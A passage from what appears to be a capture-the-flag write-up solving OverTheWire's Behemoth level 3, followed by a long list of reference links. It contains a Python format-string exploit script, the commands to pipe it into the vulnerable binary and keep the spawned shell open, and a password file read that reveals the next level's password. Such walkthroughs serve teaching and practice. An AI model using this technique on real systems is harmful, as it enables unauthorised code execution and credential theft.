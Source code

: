 ``` python

# decimal values found by new address 0xffffdee6...
number = 57054
number2 = 8473

# Final payload form should be...
# <address><address+2>%<number>x%<offset>$hn%<other number>x%<offset+1>$hn

payload = "".join([
		
    address, address2, "%", str(number), "x%", str(offset), "$hn%", str(number2), "x%", str(offset2), "$hn"

])

print payload
```

That looks good to me. Obviously the memory address may be different for you, so fill in the numbers you need based off your previous math. 

Now, this [Python] script should throw our exploit out to [standard output]. We'll have to [pipe] it to the [standard input] of this level's program. Let's try it.

```
$ python exploit.py | /behemoth/behemoth3
```

Woah, at least on my end, we got a bunch of whitespace and then the program suddenly closed. Did we get our [shell]?

This is a common thing, so always keep it in mind... your may shell have opened, but immediately closed. Try and catch the interaction by batching your exploit and [`cat`][cat].

```
$ ( python exploit.py ; cat ) | /behemoth/behemoth3
```

We still get that spew of whitespace, but the program didn't close... can we type anything?

```
whoami
behemoth4

```

___We got it!___

Let's snag the password.

```
cat /etc/behemoth_pass/behemoth4
ietheishei
```

And we've won another battle against the [Behemoth]!

---------


[netcat]: https://en.wikipedia.org/wiki/Netcat
[Wikipedia]: https://www.wikipedia.org/
[Linux]: https://www.linux.com/
[man page]: https://en.wikipedia.org/wiki/Man_page
[PuTTY]: http://www.putty.org/
[ssh]: https://en.wikipedia.org/wiki/Secure_Shell
[Windows]: http://www.microsoft.com/en-us/windows
[virtual machine]: https://en.wikipedia.org/wiki/Virtual_machine
[OS]: https://en.wikipedia.org/wiki/Operating_system
[VMWare]: http://www.vmware.com/
[VirtualBox]: https://www.virtualbox.org/
[hostname]: https://en.wikipedia.org/wiki/Hostname
[port number]: https://en.wikipedia.org/wiki/Port_%28computer_networking%29
[Ubuntu]: http://www.ubuntu.com/
[ISO]: https://en.wikipedia.org/wiki/ISO_image
[standard streams]: https://en.wikipedia.org/wiki/Standard_streams
[standard output]: https://en.wikipedia.org/wiki/Standard_streams
[standard input]: https://en.wikipedia.org/wiki/Standard_streams
[read]: http://ss64.com/bash/read.html
[variable]: https://en.wikipedia.org/wiki/Variable_%28computer_science%29
[command substitution]: http://www.tldp.org/LDP/abs/html/commandsub.html
[permissions]: https://en.wikipedia.org/wiki/File_system_permissions
[redirection]: http://www.tldp.org/LDP/abs/html/io-redirection.html
[pipe]: http://www.tldp.org/LDP/abs/html/io-redirection.html
[piping]: http://www.tldp.org/LDP/abs/html/io-redirection.html
[tmp]: http://www.tldp.org/LDP/Linux-Filesystem-Hierarchy/html/tmp.html
[curl]: http://curl.haxx.se/
[cl1p.net]: https://cl1p.net/
[request]: http://www.w3.org/Protocols/rfc2616/rfc2616-sec5.html
[POST request]: https://en.wikipedia.org/wiki/POST_%28HTTP%29
[Python]: http://python.org/
[interpreter]: https://en.wikipedia.org/wiki/List_of_command-line_interpreters
[requests]: http://docs.python-requests.org/en/latest/
[urllib]: https://docs.python.org/2/library/urllib.html
[file handling with Python]: https://docs.python.org/2/tutorial/inputoutput.html#reading-and-writing-files
[bash]: https://www.gnu.org/software/bash/
[Assembly]: https://en.wikipedia.org/wiki/Assembly_language
[the stack]:  https://en.wikipedia.org/wiki/Stack_%28abstract_data_type%29
[register]: http://www.tutorialspoint.com/assembly_programming/assembly_registers.htm
[hex]: https://en.wikipedia.org/wiki/Hexadecimal
[hexadecimal]: https://en.wikipedia.org/wiki/Hexadecimal
[archive file]: https://en.wikipedia.org/wiki/Archive_file
[zip file]: https://en.wikipedia.org/wiki/Zip_%28file_format%29
[zip files]: https://en.wikipedia.org/wiki/Zip_%28file_format%29
[.zip]: https://en.wikipedia.org/wiki/Zip_%28file_format%29
[gigabytes]: https://en.wikipedia.org/wiki/Gigabyte
[GB]: https://en.wikipedia.org/wiki/Gigabyte
[GUI]: https://en.wikipedia.org/wiki/Graphical_user_interface
[Wireshark]: https://www.wireshark.org/
[FTP]: https://en.wikipedia.org/wiki/File_Transfer_Protocol
[client and server]: https://simple.wikipedia.org/wiki/Client-server
[RETR]: http://cr.yp.to/ftp/retr.html
[FTP server]: https://help.ubuntu.com/lts/serverguide/ftp-server.html
[SFTP]: https://en.wikipedia.org/wiki/SSH_File_Transfer_Protocol
[SSL]: https://en.wikipedia.org/wiki/Transport_Layer_Security
[encryption]: https://en.wikipedia.org/wiki/Encryption
[HTML]: https://en.wikipedia.org/wiki/HTML
[Flask]: http://flask.pocoo.org/
[SQL]: https://en.wikipedia.org/wiki/SQL
[and]: https://en.wikipedia.org/wiki/Logical_conjunction
[Cyberstakes]: https://cyberstakesonline.com/
[cat]: https://en.wikipedia.org/wiki/Cat_%28Unix%29
[symbolic link]: https://en.wikipedia.org/wiki/Symbolic_link
[ln]: https://en.wikipedia.org/wiki/Ln_%28Unix%29
[absolute path]: https://en.wikipedia.org/wiki/Path_%28computing%29
[CTF]: https://en.wikipedia.org/wiki/Capture_the_flag#Computer_security
[Cyberstakes]: https://cyberstakesonline.com/
[OverTheWire]: http://overthewire.org/
[Leviathan]: http://overthewire.org/wargames/leviathan/
[ls]: https://en.wikipedia.org/wiki/Ls
[grep]: https://en.wikipedia.org/wiki/Grep
[strings]: http://linux.die.net/man/1/strings
[ltrace]: http://linux.die.net/man/1/ltrace
[C]: https://en.wikipedia.org/wiki/C_%28programming_language%29
[strcmp]: http://linux.die.net/man/3/strcmp
[access]: http://pubs.opengroup.org/onlinepubs/009695399/functions/access.html
[system]: http://linux.die.net/man/3/system
[real user ID]: https://en.wikipedia.org/wiki/User_identifier
[effective user ID]: https://en.wikipedia.org/wiki/User_identifier
[brute force]: https://en.wikipedia.org/wiki/Brute-force_attack
[for loop]: https://en.wikipedia.org/wiki/For_loop
[bash programming]: http://tldp.org/HOWTO/Bash-Prog-Intro-HOWTO.html
[Behemoth]: http://overthewire.org/wargames/behemoth/
[command line]: https://en.wikipedia.org/wiki/Command-line_interface
[command-line]: https://en.wikipedia.org/wiki/Command-line_interface
[cli]: https://en.wikipedia.org/wiki/Command-line_interface
[PHP]: https://php.net/
[URL]: https://en.wikipedia.org/wiki/Uniform_Resource_Locator
[TamperData]: https://addons.mozilla.org/en-US/firefox/addon/tamper-data/
[Firefox]: https://www.mozilla.org/en-US/firefox/new/?product=firefox-3.6.8&os=osx%E2%8C%A9=en-US
[Caesar Cipher]: https://en.wikipedia.org/wiki/Caesar_cipher
[Google Reverse Image Search]: https://www.google.com/imghp
[PicoCTF]: https://picoctf.com/
[PicoCTF 2014]: https://picoctf.com/
[JavaScript]: https://www.javascript.com/
[base64]: https://en.wikipedia.org/wiki/Base64
[client-side]: https://en.wikipedia.org/wiki/Client-side_scripting
[client side]: https://en.wikipedia.org/wiki/Client-side_scripting
[javascript:alert]: http://www.w3schools.com/js/js_popup.asp
[Java]: https://www.java.com/en/
[2147483647]: https://en.wikipedia.org/wiki/2147483647_%28number%29
[XOR]: https://en.wikipedia.org/wiki/Exclusive_or
[XOR cipher]: https://en.wikipedia.org/wiki/XOR_cipher
[quipqiup.com]: http://www.quipqiup.com/
[PDF]: https://en.wikipedia.org/wiki/Portable_Document_Format
[pdfimages]: http://linux.die.net/man/1/pdfimages
[ampersand]: https://en.wikipedia.org/wiki/Ampersand
[URL encoding]: https://en.wikipedia.org/wiki/Percent-encoding
[Percent encoding]: https://en.wikipedia.org/wiki/Percent-encoding
[URL-encoding]: https://en.wikipedia.org/wiki/Percent-encoding
[Percent-encoding]: https://en.wikipedia.org/wiki/Percent-encoding
[endianness]: https://en.wikipedia.org/wiki/Endianness
[ASCII]: https://en.wikipedia.org/wiki/ASCII
[struct]: https://docs.python.org/2/library/struct.html
[pcap]: https://en.wikipedia.org/wiki/Pcap
[packet capture]: https://en.wikipedia.org/wiki/Packet_analyzer
[HTTP]: https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol
[Wireshark filters]: https://wiki.wireshark.org/DisplayFilters
[SSL]: https://en.wikipedia.org/wiki/Transport_Layer_Security
[Assembly]: https://en.wikipedia.org/wiki/Assembly_language
[Assembly Syntax]: https://en.wikipedia.org/wiki/X86_assembly_language#Syntax
[Intel Syntax]: https://en.wikipedia.org/wiki/X86_assembly_language
[Intel or AT&T]: http://www.imada.sdu.dk/Courses/DM18/Litteratur/IntelnATT.htm
[AT&T syntax]: https://en.wikibooks.org/wiki/X86_Assembly/GAS_Syntax
[GET request]: https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#Request_methods
[GET requests]: https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#Request_methods
[IP Address]: https://en.wikipedia.org/wiki/IP_address
[IP Addresses]: https://en.wikipedia.org/wiki/IP_address
[MAC Address]: https://en.wikipedia.org/wiki/MAC_address
[session]: https://en.wikipedia.org/wiki/Session_%28computer_science%29
[Cookie Manager+]: https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/
[hexedit]: http://linux.die.net/man/1/hexedit
[Google]: http://google.com/
[Scapy]: http://www.secdev.org/projects/scapy/
[ARP]: https://en.wikipedia.org/wiki/Address_Resolution_Protocol
[UDP]: https://en.wikipedia.org/wiki/User_Datagram_Protocol
[SQL injection]: https://en.wikipedia.org/wiki/SQL_injection
[sqlmap]: http://sqlmap.org/
[sqlite]: https://www.sqlite.org/
[MD5]: https://en.wikipedia.org/wiki/MD5
[OpenSSL]: https://www.openssl.org/
[NULL character]: https://en.wikipedia.org/wiki/Null_character
[Format String Vulnerability]: http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf
[printf]: http://pubs.opengroup.org/onlinepubs/009695399/functions/fprintf.html
[argument]: https://en.wikipedia.org/wiki/Parameter_%28computer_programming%29
[arguments]: https://en.wikipedia.org/wiki/Parameter_%28computer_programming%29
[parameter]: https://en.wikipedia.org/wiki/Parameter_%28computer_programming%29
[parameters]: https://en.wikipedia.org/wiki/Parameter_%28computer_programming%29
[Vortex]: http://overthewire.org/wargames/vortex/
[socket]: https://docs.python.org/2/library/socket.html
[file descriptor]: https://en.wikipedia.org/wiki/File_descriptor
[file descriptors]: https://en.wikipedia.org/wiki/File_descriptor
[Forth]: https://en.wikipedia.org/wiki/Forth_%28programming_language%29
[github]: https://github.com/
[buffer overflow]: https://en.wikipedia.org/wiki/Buffer_overflow
[try harder]: https://www.offensive-security.com/when-things-get-tough/
[segmentation fault]: https://en.wikipedia.org/wiki/Segmentation_fault
[seg fault]: https://en.wikipedia.org/wiki/Segmentation_fault
[segfault]: https://en.wikipedia.org/wiki/Segmentation_fault
[shellcode]: https://en.wikipedia.org/wiki/Shellcode
[sploit-tools]: https://github.com/SaltwaterC/sploit-tools
[Kali]: https://www.kali.org/
[Kali Linux]: https://www.kali.org/
[gdb]: https://www.gnu.org/software/gdb/
[gdb tutorial]: http://www.unknownroad.com/rtfm/gdbtut/gdbtoc.html
[payload]: https://en.wikipedia.org/wiki/Payload_%28computing%29
[peda]: https://github.com/longld/peda
[git]: https://git-scm.com/
[home directory]: https://en.wikipedia.org/wiki/Home_directory
[NOP]: https://en.wikipedia.org/wiki/NOP
[examine]: https://sourceware.org/gdb/onlinedocs/gdb/Memory.html
[stack pointer]: http://stackoverflow.com/questions/1395591/what-is-exactly-the-base-pointer-and-stack-pointer-to-what-do-they-point
[little endian]: https://en.wikipedia.org/wiki/Endianness
[big endian]: https://en.wikipedia.org/wiki/Endianness
[endianness]: https://en.wikipedia.org/wiki/Endianness
[pack]: https://docs.python.org/2/library/struct.html#struct.pack
[dash]: https://en.wikipedia.org/wiki/Almquist_shell
[shell]: https://en.wikipedia.org/wiki/Shell_%28computing%29
[pwntools]: https://github.com/Gallopsled/pwntools
[colorama]: https://pypi.python.org/pypi/colorama
[objdump]: https://en.wikipedia.org/wiki/Objdump
[UPX]: http://upx.sourceforge.net/
[64-bit]: https://en.wikipedia.org/wiki/64-bit_computing
[breakpoint]: https://en.wikipedia.org/wiki/Breakpoint
[stack frame]: http://www.cs.umd.edu/class/sum2003/cmsc311/Notes/Mips/stack.html
[format string]: http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html
[format specifiers]: http://web.eecs.umich.edu/~bartlett/printf.html
[format specifier]: http://web.eecs.umich.edu/~bartlett/printf.html
[variable expansion]: https://www.gnu.org/software/bash/manual/html_node/Shell-Parameter-Expansion.html
[base pointer]: http://stackoverflow.com/questions/1395591/what-is-exactly-the-base-pointer-and-stack-pointer-to-what-do-they-point
[dmesg]: https://en.wikipedia.org/wiki/Dmesg
[Android]: https://www.android.com/
[decompiler]: https://en.wikipedia.org/wiki/Decompiler
[decompile Java code]: http://www.javadecompilers.com/
[jadx]: https://github.com/skylot/jadx
[.img]: https://en.wikipedia.org/wiki/IMG_%28file_format%29
[binwalk]: http://binwalk.org/
[JPEG]: https://en.wikipedia.org/wiki/JPEG
[JPG]: https://en.wikipedia.org/wiki/JPEG
[disk image]: https://en.wikipedia.org/wiki/Disk_image
[foremost]: http://foremost.sourceforge.net/
[eog]: https://wiki.gnome.org/Apps/EyeOfGnome
[function pointer]: https://en.wikipedia.org/wiki/Function_pointer
[machine code]: https://en.wikipedia.org/wiki/Machine_code
[compiled language]: https://en.wikipedia.org/wiki/Compiled_language
[compiler]: https://en.wikipedia.org/wiki/Compiler
[compile]: https://en.wikipedia.org/wiki/Compiler
[scripting language]: https://en.wikipedia.org/wiki/Scripting_language
[shell-storm.org]: http://shell-storm.org/
[shellcode database]: http://shell-storm.org/shellcode/
[gdb-peda]: https://github.com/longld/peda
[x86]: https://en.wikipedia.org/wiki/X86
[Intel x86]: https://en.wikipedia.org/wiki/X86
[sh]: https://en.wikipedia.org/wiki/Bourne_shell
[/bin/sh]: https://en.wikipedia.org/wiki/Bourne_shell
[SANS]: https://www.sans.org/
[Holiday Hack Challenge]: https://holidayhackchallenge.com/
[USCGA]: http://uscga.edu/
[United States Coast Guard Academy]: http://uscga.edu/
[US Coast Guard Academy]: http://uscga.edu/
[Academy]: http://uscga.edu/
[Coast Guard Academy]: http://uscga.edu/
[Hackfest]: https://www.sans.org/event/pen-test-hackfest-2015
[SSID]: https://en.wikipedia.org/wiki/Service_set_%28802.11_network%29
[DNS]: https://en.wikipedia.org/wiki/Domain_Name_System
[Python:base64]: https://docs.python.org/2/library/base64.html
[OpenWRT]: https://openwrt.org/
[node.js]: https://nodejs.org/en/
[MongoDB]: https://www.mongodb.org/
[Mongo]: https://www.mongodb.org/
[SuperGnome 01]: http://52.2.229.189/
[Shodan]: https://www.shodan.io/
[SuperGnome 02]: http://52.34.3.80/
[SuperGnome 03]: http://52.64.191.71/
[SuperGnome 04]: http://52.192.152.132/
[SuperGnome 05]: http://54.233.105.81/
[Local file inclusion]: http://hakipedia.com/index.php/Local_File_Inclusion
[LFI]: http://hakipedia.com/index.php/Local_File_Inclusion
[PNG]: http://www.libpng.org/pub/png/
[.png]: http://www.libpng.org/pub/png/
[Remote Code Execution]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[RCE]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[GNU]: https://www.gnu.org/
[regular expression]: https://en.wikipedia.org/wiki/Regular_expression
[regular expressions]: https://en.wikipedia.org/wiki/Regular_expression
[uniq]: https://en.wikipedia.org/wiki/Uniq
[sort]: https://en.wikipedia.org/wiki/Sort_%28Unix%29
[binary data]: https://en.wikipedia.org/wiki/Binary_data
[binary]: https://en.wikipedia.org/wiki/Binary
[Firebug]: http://getfirebug.com/
[SHA1]: https://en.wikipedia.org/wiki/SHA-1
[SHA-1]: https://en.wikipedia.org/wiki/SHA-1
[Linux]: https://www.linux.com/
[Ubuntu]: http://www.ubuntu.com/
[Kali Linux]: https://www.kali.org/
[Over The Wire]: http://overthewire.org/wargames/
[OverTheWire]: http://overthewire.org/wargames/
[Micro Corruption]: https://microcorruption.com/
[Smash The Stack]: http://smashthestack.org/
[CTFTime]: https://ctftime.org/
[Writeups]: https://ctftime.org/writeups
[Competitions]: https://ctftime.org/event/list/upcoming
[Skull Security]: https://wiki.skullsecurity.org/index.php?title=Main_Page
[MITRE]: http://mitrecyberacademy.org/
[Trail of Bits]: https://trailofbits.github.io/ctf/
[Stegsolve]: http://www.caesum.com/handbook/Stegsolve.jar
[Steghide]: http://steghide.sourceforge.net/
[IDA Pro]: https://www.hex-rays.com/products/ida/
[Wireshark]: https://www.wireshark.org/
[Bro]: https://www.bro.org/
[Meterpreter]: https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/
[Metasploit]: http://www.metasploit.com/
[Burpsuite]: https://portswigger.net/burp/
[xortool]: https://github.com/hellman/xortool
[sqlmap]: http://sqlmap.org/
[VMWare]: http://www.vmware.com/
[VirtualBox]: https://www.virtualbox.org/wiki/Downloads
[VBScript Decoder]: https://gist.github.com/bcse/1834878
[quipqiup.com]: http://quipqiup.com/
[EXIFTool]: http://www.sno.phy.queensu.ca/~phil/exiftool/
[Scalpel]: https://github.com/sleuthkit/scalpel
[Ryan's Tutorials]: http://ryanstutorials.net
[Linux Fundamentals]: http://linux-training.be/linuxfun.pdf
[USCGA]: http://uscga.edu
[Cyberstakes]: https://cyberstakesonline.com/
[Crackmes.de]: http://crackmes.de/
[Nuit Du Hack]: http://wargame.nuitduhack.com/
[Hacking-Lab]: https://www.hacking-lab.com/index.html
[FlareOn]: http://www.flare-on.com/
[The Second Extended Filesystem]: http://www.nongnu.org/ext2-doc/ext2.html
[GIF]: https://en.wikipedia.org/wiki/GIF
[PDFCrack]: http://pdfcrack.sourceforge.net/index.html
[Hexcellents CTF Knowledge Base]: http://security.cs.pub.ro/hexcellents/wiki/home
[GDB]: https://www.gnu.org/software/gdb/
[The Linux System Administrator's Guide]: http://www.tldp.org/LDP/sag/html/index.html
[aeskeyfind]: https://citp.princeton.edu/research/memory/code/
[rsakeyfind]: https://citp.princeton.edu/research/memory/code/
[Easy Python Decompiler]: http://sourceforge.net/projects/easypythondecompiler/
[factordb.com]: http://factordb.com/
[Volatility]: https://github.com/volatilityfoundation/volatility
[Autopsy]: http://www.sleuthkit.org/autopsy/
[ShowMyCode]: http://www.showmycode.com/
[HTTrack]: https://www.httrack.com/
[theHarvester]: https://github.com/laramies/theHarvester
[Netcraft]: http://toolbar.netcraft.com/site_report/
[Nikto]: https://cirt.net/Nikto2
[PIVOT Project]: http://pivotproject.org/
[InsomniHack PDF]: http://insomnihack.ch/wp-content/uploads/2016/01/Hacking_like_in_the_movies.pdf
[radare]: http://www.radare.org/r/
[radare2]: http://www.radare.org/r/
[foremost]: https://en.wikipedia.org/wiki/Foremost_%28software%29
[ZAP]: https://github.com/zaproxy/zaproxy
[Computer Security Student]: https://www.computersecuritystudent.com/HOME/index.html
[Vulnerable Web Page]: http://testphp.vulnweb.com/
[Hipshot]: https://bitbucket.org/eliteraspberries/hipshot
[John the Ripper]: https://en.wikipedia.org/wiki/John_the_Ripper
[hashcat]: http://hashcat.net/oclhashcat/
[fcrackzip]: http://manpages.ubuntu.com/manpages/hardy/man1/fcrackzip.1.html
[Whitehatters Academy]: https://www.whitehatters.academy/
[gn00bz]: http://gnoobz.com/
[Cybrary]: https://www.cybrary.it/
[Obum Chidi]: https://obumchidi.wordpress.com/
[ksnctf]: http://ksnctf.sweetduet.info/
[ToolsWatch]: http://www.toolswatch.org/category/tools/
[Nandy Narwhals]: http://nandynarwhals.org/
[CTFHacker]: http://ctfhacker.com/
[Tasteless]: http://tasteless.eu/
[Dragon Sector]: http://blog.dragonsector.pl/
[pwnable.kr]: http://pwnable.kr/
[reversing.kr]: http://reversing.kr/
[DVWA]: http://www.dvwa.co.uk/
[Damn Vulnerable Web App]: http://www.dvwa.co.uk/
[b01lers]: https://b01lers.net/
[Capture the Swag]: https://ctf.rip/
[pointer]: https://en.wikipedia.org/wiki/Pointer_%28computer_programming%29
[call stack]: https://en.wikipedia.org/wiki/Call_stack
[return statement]: https://en.wikipedia.org/wiki/Return_statement
[return address]: https://en.wikipedia.org/wiki/Return_statement
[disassemble]: https://en.wikipedia.org/wiki/Disassembler
[less]: https://en.wikipedia.org/wiki/Less_%28Unix%29
[puts]: http://pubs.opengroup.org/onlinepubs/009695399/functions/puts.html
[disassembly]: https://en.wikibooks.org/wiki/X86_Disassembly
[PLT]: https://www.technovelty.org/linux/plt-and-got-the-key-to-code-sharing-and-dynamic-libraries.html
[Procedure Lookup Table]: http://reverseengineering.stackexchange.com/questions/1992/what-is-plt-got
[environment variable]: https://en.wikipedia.org/wiki/Environment_variable
[getenvaddr]: https://code.google.com/p/protostar-solutions/source/browse/Stack+6/getenvaddr.c?r=3d0a6873d44901d63caf9ad3764cfb9ab47f3332
[getenvaddr.c]: https://code.google.com/p/protostar-solutions/source/browse/Stack+6/getenvaddr.c?r=3d0a6873d44901d63caf9ad3764cfb9ab47f3332